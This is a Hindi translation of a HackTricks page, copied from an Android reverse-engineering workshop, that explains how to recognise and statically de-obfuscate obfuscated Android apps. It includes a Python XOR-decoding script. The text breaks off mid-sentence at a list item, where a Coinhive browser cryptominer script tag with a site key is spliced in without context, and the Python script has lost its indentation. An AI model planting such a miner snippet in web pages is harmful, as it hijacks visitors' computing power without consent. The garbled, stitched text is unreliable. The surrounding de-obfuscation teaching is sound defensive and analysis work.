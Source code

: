 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>


**[**https://maddiestone.github.io/AndroidAppRE/obfuscation.html**](https://maddiestone.github.io/AndroidAppRE/obfuscation.html)** से कॉपी किया गया (आप वहां समाधान पा सकते हैं)**

![Logo](https://maddiestone.github.io/AndroidAppRE/images/pinkandroid.png)

कई बार जब आप जिस एप्लिकेशन को रिवर्स कर रहे होते हैं, वह उतना सीधा नहीं होता जितना कुछ उदाहरणों में हमने चर्चा की है। डेवलपर अपने ऐप के व्यवहार और/या कार्यान्वयन को छिपाने के लिए एक या अधिक ऑब्फस्केशन तकनीकों को लागू करेगा। यह दोनों अच्छे और बुरे कारणों से हो सकता है।

ऑब्फस्केशन के बारे में याद रखने वाली मुख्य बात यह है कि यदि आप इसे डी-ऑब्फस्केट करना चाहते हैं, तो आप कर सकेंगे। मुख्य निर्णय यह नहीं है कि आप कर सकते हैं या नहीं, बल्कि यह है कि क्या इसे डी-ऑब्फस्केट करने के लिए संसाधन लगाना इसके लायक है या नहीं।

आप हमेशा कुछ भी डी-ऑब्फस्केट कर सकते हैं क्योंकि अंततः CPU को किसी बिंदु पर अनऑब्फस्केटेड कोड देखना होता है ताकि वह इसे चला सके।

## डी-ऑब्फस्केशन कैसे करें <a href="how-to-de-obfuscate" id="how-to-de-obfuscate"></a>

आप जिस एप्लिकेशन को डी-ऑब्फस्केट करना चाहते हैं, वह ऑब्फस्केशन विधि पर निर्भर करेगा, लेकिन कुछ सामान्य तकनीकें हैं जो आमतौर पर अच्छी तरह से काम करती हैं। यहां, हम केवल स्टैटिक डी-ऑब्फस्केशन तकनीकों पर चर्चा करेंगे क्योंकि यह कार्यशाला केवल स्टैटिक विश्लेषण/रिवर्सिंग को कवर करती है। हालांकि, याद रखें कि एप्लिकेशन को चलाना और इसे गतिशील रूप से विश्लेषण करना ऑब्फस्केशन के आसपास पाने का एक और शानदार तरीका हो सकता है।

DEX बाइटकोड (Java) में ऑब्फस्केशन के लिए, स्टैटिक रूप से डीऑब्फस्केट करने का एक सबसे आसान तरीका एप्लिकेशन में डी-ऑब्फस्केशन विधियों की पहचान करना है और उनके डिकम्पाइलेशन को एक Java फ़ाइल में कॉपी करना है जिसे आप फिर ऑब्फस्केटेड फ़ाइल, स्ट्रिंग्स, कोड, आदि पर चलाते हैं।

Java और Native Code दोनों के लिए एक और समाधान यह है कि डी-ऑब्फस्केशन एल्गोरिदम को Python या किसी अन्य स्क्रिप्टिंग भाषा में अनुवादित करें जिसमें आप सबसे अधिक सहज हैं। मैं "अनुवादित" कहता हूं क्योंकि यह महत्वपूर्ण है कि आपको हमेशा डी-ऑब्फस्केशन एल्गोरिदम को \*समझने\* की आवश्यकता नहीं होती, आपको केवल इसे निष्पादित करने का एक तरीका चाहिए। मैं इसे "Unpacking the Packed Unpacker" टॉक में अधिक विस्तार से कवर करता हूं जो "More Examples" सेक्शन में लिंक किया गया है।

## ऑब्फस्केशन के संकेत <a href="indicators-of-obfuscation" id="indicators-of-obfuscation"></a>

ऑब्फस्केशन के कई अलग-अलग प्रकार हैं और इसी तरह, विश्लेषक को यह सूचित करने के लिए कई अलग-अलग प्रकार के संकेत हैं कि एक एप्लिकेशन संभवतः ऑब्फस्केटेड है, लेकिन यहां कुछ उदाहरण हैं जिनमें डीऑब्फस्केटिंग के लिए प्रस्तावित स्टैटिक विश्लेषण समाधान हैं।

* कोई स्ट्रिंग्स नहीं: Java और Android स्ट्रिंग्स पर अत्यधिक निर्भर हैं इसलिए यदि आप कोई भी या केवल गड़बड़ स्ट्रिंग्स नहीं देखते हैं, तो यह अत्यधिक संभावना है कि स्ट्रिंग्स ऑब्फस्केटेड हैं।
* सुझावित समाधान: ऐसे मेथड कॉल्स की तलाश करें जो स्ट्रिंग्स को एक आर्गुमेंट के रूप में लेते हैं और ट्रेस करें कि वह आर्गुमेंट कहां से आ रहा है। किसी बिंदु पर स्ट्रिंग आर्गुमेंट एक डी-ऑब्फस्केशन मेथड के माध्यम से जा रहा होगा इससे पहले कि यह API को पास किया जाता है जो स्ट्रिंग आर्गुमेंट लेता है।
* गड़बड़ स्ट्रिंग्स: Java और Android APIs को प्लेन टेक्स्ट स्ट्रिंग्स की आवश्यकता होती है, गड़बड़ नहीं।
* सुझावित समाधान: गड़बड़ स्ट्रिंग्स सभी संभावना में एक ही मेथड्स को पास किए जाते हैं इससे पहले कि वे APIs को पास किए जाते हैं। ये मेथड्स संभावना में डी-ऑब्फस्केशन मेथड्स हैं।
* assets/ डायरेक्टरी में बाइनरी फाइलें और ऐप में DexClassLoader कॉल्स: अतिरिक्त कोड अनपैकिंग और लोडिंग की संभावना है। (यह भी संभावना है कि एक दूरस्थ स्थान से डाउनलोड करना और फिर DexClassLoader का उपयोग करके लोड करना)
* सुझाव समाधान: पहचानें कि फाइल को कहां पढ़ा जाता है और फिर पथ का अनुसरण करें। यह संभावना है कि इसे पढ़ने के तुरंत बाद डी-ऑब्फस्केट किया जाता है।
* नेटिव लाइब्रेरीज - JNI फंक्शंस की पहचान नहीं कर सकते (कोई फंक्स नाम Java\_ नहीं है और RegisterNatives को कोई कॉल्स नहीं): किसी भी नेटिव मेथड्स को निष्पादित करने के लिए, JNI को नेटिव लाइब्रेरी में फंक्शन को जावा में नेटिव मेथड घोषणा के साथ जोड़ने में सक्षम होना चाहिए और इस प्रकार दोनों में से एक को किसी बिंदु पर मौजूद होना चाहिए।
* सुझावित समाध
```
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
पायथन स्क्रिप्ट जो मैंने इसे डी-ऑब्फ्यूस्केट करने के लिए लिखी है:
```
enc_str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

length = len(enc_str)
count = 0
dec_str = [0] * (length/2)
while (count < length):
dec_str[count/2] = (int(enc_str[count], 16) << 4) + int(enc_str[count + 1], 16) & 0xFF
count += 2
print dec_str


key = [75, 67, 81, 82, 49, 57, 84, 90]
enc_str = dec_str
count = 0
length = len(enc_str)
while (count < length):
dec_str[count] = chr(enc_str[count] ^ key[count % len(key)])
count += 1
print ''.join(dec_str)
```
## और उदाहरण <a href="more-examples" id="more-examples"></a>

मैंने Android ऐप्स के डी-ऑब्फ़्यूस्केटिंग पर कुछ वार्ताएँ की हैं जिनमें विविध ऑब्फ़्यूस्केशन तंत्र शामिल हैं। इन वार्ताओं में, मैं उन्नत ऑब्फ़्यूस्केशन तकनीकों, उन्हें डी-ऑब्फ़्यूस्केट करने के मेरे समाधान, और उन विचारों और चयनों पर चर्चा करता हूँ जो मैंने डी-ऑब्फ़्यूस्केट करने के लिए तय किए।

* BlackHat USA 2018: “Unpacking the Packed Unpacker: Reverse Engineering an Android Anti-Analysis Library” \[[वीडियो](https://www.youtube.com/watch?v=s0Tqi7fuOSU)]
* यह वार्ता एक Android एप्लिकेशन द्वारा प्रयुक्त सबसे जटिल एंटी-एनालिसिस नेटिव लाइब्रेरीज में से एक की रिवर्स इंजीनियरिंग पर जाती है। यह मुख्य रूप से नेटिव कोड में ऑब्फ़्यूस्केशन तकनीकों को कवर करता है।
* REcon 2019: “The Path to the Payload: Android Edition” \[[वीडियो](https://recon.cx/media-archive/2019/Session.005.Maddie_Stone.The_path_to_the_payload_Android_Edition-J3ZnNl2GYjEfa.mp4)]
* यह वार्ता एक Android बॉटनेट द्वारा अपने व्यवहार को छिपाने के लिए प्रयुक्त जावा कोड में केवल ऑब्फ़्यूस्केशन तकनीकों की एक श्रृंखला पर चर्चा करती है।


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
